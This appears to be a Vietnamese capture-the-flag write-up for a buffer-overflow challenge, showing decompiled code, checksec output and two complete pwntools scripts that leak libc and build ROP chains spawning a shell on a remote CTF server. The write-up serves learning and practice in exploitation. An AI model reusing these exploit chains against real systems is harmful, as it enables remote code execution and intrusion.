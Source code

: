 # ida
```c
int date()
{
  return system("/bin/date");
}

__int64 vuln()
{
  char v1[64]; // [rsp+0h] [rbp-40h] BYREF

  puts("Tell us some review about our program: ");
  fflush(_bss_start);
  return gets(v1);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  puts("Welcome to the feedback submiter.");
  vuln();
  return 0;
}
```
# checksec
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

##### thông qua ida và checksec, ta có thể đoán được là ret2libc
> hàm system bài này không có sẵn trong file, có trong file libc trên sever

# ret2libc
> do trong chương trình có hàm puts nên ta có put@got và put@plt dễ dành leak được libc và tính địa chỉ base.
```python
payload = b"a" * 72 + p64(pop_rdi)
payload += p64(exe.got['puts'])
payload += p64(exe.plt['puts'])
payload += p64(exe.sym['main'])
r.sendlineafter(b"our program: ", payload)
leak_libc = u64(r.recvuntil(b"\nWelcome", drop=True)[1:]+b'\0\0')
log.info('leak libc: ' + hex(leak_libc))
```
chạy script trên sever ta nhận được ```leak libc: 0x7f1dec78aed0``` (ở đây 3kí tự cuối ```ed0``` là không đổi), tìm file libc trên mạng t có 1 file

tiếp đến ta pwninit nhưng... có vẻ như nó không tự động patched với nhau.
```
bin: ./exe

copying ./exe to ./exe_patched
running patchelf on ./exe_patched
```
nhưng không sao, ta sẽ tính tay.
___
Đầu tiên ta sẽ tính địa chỉ base libc 

![image](https://user-images.githubusercontent.com/111769169/223641357-b1530364-a813-4f70-a4be-a797fe7975bb.png)

ta sẽ lấy địa chỉ nhỏ nhất của libc là ```0x007ffff7d8d000``` base và tính offset từ địa chỉ leak đến địa
```python
libc.address = leak_libc - 528080
log.info('base libc: ' + hex(libc.address))
```
tiếp đó debug động, ta sẽ kiểm tra địa chỉ của chuỗi ```/bin/sh``` và hàm ```symtem``` là:

```
[*] /bin/sh: 0x7ff7752d1dd0
[*] base libc: 0x7ff775277f80
```
và tìm chuỗi /bin/sh ở địa chỉ ```0x7ff775401698 - 0x7ff77540169f  →   "/bin/sh"``` và hàm symtem ở ```$1 = (int (*)(const char *)) 0x7ff775279d60 <__libc_system>```
tính offset của chuỗi /bin/sh: 1243336 và system: 7648
kiểm tra lại ta thấy đúng rồi là oke

```
0x007ffdf36f7710│+0x0050: 0x00000000400703  →  <__libc_csu_init+99> pop rdi
0x007ffdf36f7718│+0x0058: 0x007feff7d40698  →  0x68732f6e69622f ("/bin/sh"?)
0x007ffdf36f7720│+0x0060: 0x007feff7bb8d60  →  <system+0> endbr64
```

do khi chạy ta có lỗi xmm1 nên ta sẽ gọi lệnh ret để +8 vào stack

<details> <summary> script </summary>

```python
from pwn import *

# r = process("./exe_patched")
r = remote("execution.ctf.pragyan.org" , 12386)
exe = ELF("./exe_patched")
libc = ELF("./musl_1.1.24-1_amd64.so")
# gdb.attach(r, gdbscript='''
#            b*vuln+50
#            c
#            ''')
input()

pop_rdi = 0x0000000000400703
#################
### leak libc ###
#################
payload = b"a" * 72 + p64(pop_rdi)
payload += p64(exe.got['puts'])
payload += p64(exe.plt['puts'])
payload += p64(exe.sym['main'])
r.sendlineafter(b"our program: ", payload)
leak_libc = u64(r.recvuntil(b"\nWelcome", drop=True)[1:]+b'\0\0')
libc.address = leak_libc - 528080
log.info('leak libc: ' + hex(leak_libc))
log.info('base libc: ' + hex(libc.address))

#####################
### check address ###
#####################
log.info("/bin/sh: " + hex(next(libc.search(b"/bin/sh"))))
log.info('system: ' + hex(libc.sym['system']))


payload = b'a'*72
payload += p64(0x00000000004004c9)      #ret
payload += p64(pop_rdi) + p64(next(libc.search(b'/bin/sh')) + 1243336)
payload += p64(libc.sym['system'] + 7648)
r.sendlineafter(b"our program: ", payload)
r.interactive()
```

</details>

# cách 2:
> do người ta có hàm system trong file rồi nên ta có thể nhảy vào hàm system lun

<details> <summary> script </summary> 

```python
context.binary = exe

pop_rdi = 0x0000000000400703

payload = b'A'*72
payload += flat(
    pop_rdi, 0x00000000601a00,      # pop_rdi và mình dùng hàm gets để ghi vào vùng nhớ được phép ghi 0x0060100 để lưu /bin/sh
    exe.plt['gets'],
    pop_rdi, 0x00000000601a00,      # pop_rdi và trỏ đến địa chỉ lưu /bin/sh và thực thi
    exe.plt['system'],
    )
r.sendlineafter(b"our program: ", payload)
r.sendline(b'/bin/sh\0')
```

</details>